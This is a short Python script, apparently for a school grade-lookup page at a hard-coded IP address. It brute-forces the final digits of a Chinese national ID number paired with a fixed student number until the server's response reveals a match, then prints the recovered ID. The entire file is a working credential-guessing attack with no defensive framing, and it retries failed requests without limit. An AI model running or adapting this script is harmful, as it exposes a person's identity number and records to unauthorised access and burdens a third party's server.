 import urllib.request
import time
import sys
def yJudge(num,id):
    #return False
    data = 'xh={xh}&sfzh={sfzh}'.format(sfzh=id,xh=num)
    data = data.encode('utf-8')
    request = urllib.request.Request('http://222.177.140.104//showStuQmcj.php')
    request.add_header("Content-Type", "application/x-www-form-urlencoded;charset=utf-8")
    try:
        f = urllib.request.urlopen(request, data)
        res = f.read()
        #print(len(res))#print(str(res, encoding='utf-8'))
        if len(res) == 29:
            return False
        else:
            return True
    except urllib.error.HTTPError as mye:
        print('ErrorCode: %s' % mye)  # <class 'urllib.error.HTTPError'>
        print('ErrorCode: %s' % mye.code)  
        print('ErrorCode: %s' % mye.read())  # 如果是404，依然能读取到content内容的
        print('restart!!{num}&{id} {t}'.format(num=num,id=id,t=time.ctime()),end='\r')
        sys.stdout.flush()
        yJudge(num,id);
    except urllib.error.URLError as mye:
        print('ErrorCode: %s' % mye)
        print('restart!!{num}&{id} {t}'.format(num=num,id=id,t=time.ctime()),end='\r')
        sys.stdout.flush()
        yJudge(num,id);
    except:
        #sys.stdout.write('\r')
        print('restart!!{num}&{id} {t}'.format(num=num,id=id,t=time.ctime()),end='\r')
        sys.stdout.flush()
        yJudge(num,id);
def main():
    num = 2017212047
    start = 10728
    end = 29220
    i = 0
    for id_head in range(start,end,2):
        #from 051840 only even
        for id_tail in ['0','1','2','3','4','5','6','7','8','9','x']:
            i = i+1
            id = '{head:0>5}{tail}'.format(tail=id_tail,head=id_head)
            #print(id)
            if yJudge(num,id):
                print('Get!xh={xh}&sfzh={sfzh}'.format(sfzh=id,xh=num))
                return None
            else:
                print('Wrong,xh={xh}&sfzh={sfzh} {ratio:>8.4%} {t}'.format(sfzh=id,xh=num,ratio=2*i/(11*(end-start)),t=time.ctime()))
main()

